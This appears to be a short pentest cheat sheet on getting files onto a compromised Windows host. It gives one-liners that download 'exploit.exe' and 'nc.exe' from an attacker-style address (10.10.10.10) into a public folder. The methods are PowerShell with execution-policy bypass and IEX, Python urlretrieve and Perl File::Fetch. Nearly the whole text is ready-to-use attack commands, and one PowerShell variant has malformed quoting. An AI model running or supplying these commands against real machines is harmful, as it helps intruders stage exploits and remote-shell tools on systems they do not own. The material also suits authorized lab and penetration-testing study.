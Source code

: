 ### Uploading Files with PowerShell

Test to see if we can run Powershell:

```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "get-host"
```

Test to see if we can run Powershell Version 2:

```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -Version 2 -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "$PSVersionTable"
```

Try to download a file from a remote server to the windows temp folder from the Windows command line:

```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/exploit.exe\", \"C:\\Users\\Public\\Downloads\\exploit.exe\")"
```

Or from a PowerShell... shell:

```powershell
PS C:\> IEX(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/exploit.exe\", \"C:\\Users\\Public\\Downloads\\exploit.exe\")"
```

OR This one seems to work better while at the console:

```powershell
PS C:\> IEX(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/exploit.exe", "C:\Users\Public\Downloads\exploit.exe")
```

### Uploading Files with Python

Sometimes a Windows machine will have development tools like Python installed. Check for python

```
python -h
```

Download a file using Python:

```
python -c "import urllib.request; urllib.request.urlretrieve('http://10.10.10.10/cat.jpg', 'C:\\Users\\Public\\Downloads\\cat.jpg');"
```

### Uploading Files with Perl

- Sometimes a Windows machine will have development tools like PERL installed. Check for PERL
  `perl -v`

- Download a file using PERL:
  `perl -le "use File::Fetch; my $ff = File::Fetch->new(uri => 'http://10.10.10.10/nc.exe'); my $file = $ff->fetch() or die $ff->error;"`
